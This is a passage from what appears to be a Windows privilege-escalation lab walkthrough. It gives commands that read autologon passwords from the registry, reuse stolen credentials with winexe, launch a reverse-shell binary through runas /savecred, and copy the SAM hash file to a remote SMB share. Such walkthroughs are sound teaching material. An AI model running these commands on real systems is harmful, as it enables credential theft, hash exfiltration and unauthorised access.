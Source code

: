 ```bash
C:\gr4n173>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUsername
C:\gr4n173>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
```
Now if we got the creds of `admin` then we can login using `winexe` in kali machine which is same as `ssh` in linux with creds.
```bash
root@gr4n173:~$ winexe -U 'admin%password' //10.10.26.193 cmd.exe
c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin
```

### Saved Creds
If we got the saved creds in `windows` machine then we can get the reverse connection using `savedcred`
To search for saved credentials
```bash
C:\gr4n173>cmdkey /list
Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02nfpgrklkitqatu
    Local machine persistence

    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin
```
This indicate `admin` users creds is saved. Now to get the reverse connection we can `runas` with listner on in linux.
```bash
C:\gr4n173>runas /savecred /user:admin C:\PrivEsc\reverse.exe
```
> **Note:** If you want to create the saved credential list in windows then we can use the following command.
> `C:\gr4n173> cmdkey /add:vulnerabl-pc /user:gr4n173 /pass:password`
**For more info:** visit here [cmdkey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey).

### Security Account Manager (SAM)
Basically Windows user password hashes can be extracted using `SAM` and `SYSTEM` files. 
> In order to transfer files from `windows` machine to `linux` we can use same `smb` server and use `copy` command as
>  C:\gr4n173>copy FILENAME \\IP_address_of_linux\gr4n173\

```bash
C:\gr4n173>copy SAM \\10.2.77.175\gr4n173
```
